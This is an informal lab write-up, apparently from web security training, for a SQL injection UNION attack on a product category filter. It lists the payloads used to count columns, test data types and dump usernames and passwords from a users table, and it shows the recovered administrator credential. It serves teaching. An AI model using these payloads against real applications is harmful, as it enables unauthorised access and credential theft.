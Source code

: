 # Lab: SQL injection UNION attack, retrieving data from other tables

> SQL Injection - Product Category filter.

End Goal - Output the usernames and passwords in the users table and login as the administrator user.

Analysis
---------------

1. Determin the no of colouns that vuln qurey using
' order by 1--
' order by 2--
' order by 3-- -> internal server error

3-1 = 2

2. Determine the datatype that using

select a,b from products where category='Gifts

' UNION select 'a', NULL-- 
' UNION select 'a', 'a'--
-> both columns are of data type string

' UNION select username, password from users --
```
administrator
uwts5hfac35mvn2ljpxg
```
